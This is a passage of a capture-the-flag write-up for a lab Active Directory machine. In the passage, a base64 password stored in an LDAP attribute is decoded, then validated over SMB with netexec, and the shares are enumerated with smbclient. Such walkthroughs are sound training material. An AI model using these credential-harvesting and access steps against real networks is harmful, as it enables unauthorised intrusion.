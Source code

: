 ```sh
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
[..snip..]
```

Interesting field there at the bottom for `r.thompson` titled `cascadeLegacyPwd`. He's the only user with it.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```

## Initial Access

### Check Credentials

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ netexec smb 10.129.145.225 -u r.thompson -p 'rY4n5eva'
SMB    10.129.145.225  445    CASC-DC1     [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB    10.129.145.225  445    CASC-DC1     [+] cascade.local\r.thompson:rY4n5eva
```

Looks like they're still valid credentials.  Let's keep seeing what we can do.

### SMB (again)

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ smbclient -L \\\\10.129.145.225\\ -U r.thompson%'rY4n5eva'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share
```
